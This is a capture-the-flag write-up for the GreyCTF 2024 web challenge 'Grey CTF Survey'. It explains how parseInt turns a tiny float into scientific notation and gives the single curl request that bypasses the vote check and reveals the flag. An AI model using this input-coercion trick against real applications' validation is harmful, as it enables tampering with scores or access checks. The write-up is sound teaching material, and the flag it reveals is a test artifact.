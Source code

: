 ```yaml
---
title: Grey CTF Survey
author: yufong
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 18:09
tags: 
- js/parseInt
details: Improper use of `parseInt` leads to unexpected results	
difficulty: 2
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/greyctf-survey"
img_path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/
image:
  path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Source Code Analysis

```
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```
>Vulnerability Details:
>[Solving a Mystery Behavior of parseInt() in JavaScript](https://dmitripavlutin.com/parseint-mystery-javascript/)
>- User input, an integer is passed into `parseInt()`, causing an unexpected value.
>- When an integer is passed into `parseInt()` 
>	1. it is converted to a string then into an integer again, 
>	2. if a number gets too large/small, "[Scientific Notation](https://en.wikipedia.org/wiki/Scientific_notation)" is used
>	3. So `0.0000005` turns into `5e-7` (String) and then `5` (int)
{: .prompt-info}

```
String(0.5); // => '0.5'  

String(0.05); // => '0.05'  

String(0.005); // => '0.005'  

String(0.0005); // => '0.0005'  

String(0.00005); // => '0.00005'  

String(0.000005); // => '0.000005'  

String(0.0000005); // => '5e-7' => 5
```



# Solution

```
┌──(root💀kali)-[~/boxes/nusgreyhat/WEB/Grey CTF Survey]
└─$ curl -H "Content-Type: application/json" -d '{"vote":0.0000005}' http://challs.nusgreyhats.org:33334/vote
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}   
```



